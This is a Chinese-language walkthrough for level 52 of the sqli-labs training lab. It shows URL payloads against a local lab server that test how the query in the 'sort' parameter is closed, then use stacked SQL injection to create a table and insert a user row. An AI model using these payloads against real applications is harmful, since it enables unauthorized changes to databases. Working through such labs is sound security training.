






# Less - 52

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1'
```

​​

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1--+
http://192.168.23.128/sqli-labs/Less-52/?sort=1'--+
```

​​

因为这里没有完整错误回显，所以这里我们只能使用时间盲注，但是在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里我们也可以使用堆叠注入攻击。

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1;create table test like users;--+
```

​​

​​

---

## 3、新建一个用户

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1;insert into users values(18,'cmx','cmx');--+
```

​​

​​
